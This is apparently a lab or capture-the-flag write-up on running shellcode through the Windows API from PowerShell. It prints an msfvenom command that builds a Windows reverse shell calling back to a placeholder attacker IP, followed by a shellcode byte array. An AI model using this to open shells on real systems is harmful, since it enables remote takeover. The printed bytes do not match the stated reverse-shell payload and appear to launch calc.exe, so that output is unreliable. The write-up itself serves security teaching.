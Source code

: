 ```ad-info
- **Windows API**: The Windows Application Programming Interface (API) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves as a bridge between the application and the operating system, enabling efficient resource handling. The Windows API is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute shellcodes. Common Windows API functions frequently used by malicious actors include `VirtualAlloc`, `CreateThread`, `WaitForSingleObject`, which we will also use in this task for exploitation.
- **Accessing Windows API through PowerShell Reflection**: Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.
- **Reverse shell**: A type of connection in which the target (the machine you're trying to hack) initiates a connection back to your attacking machine (in this case, your machine will be the AttackBox).
```


![](../images/Pasted%20image%2020241208144201.png)

## Generating Shellcode
---

_But Mayor Malware's minions, sneaky and sly,_

_Found his script and gave it a try._

_They tampered the code, changed port and IP,_

_Twisted his work with a sinister glee._

Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.  

In the AttackBox, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. The output will look like the following.  You will require to replace the `ATTACKBOX_IP` with the IP of the AttackBox.


```shell
root@attackbox:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0    
```
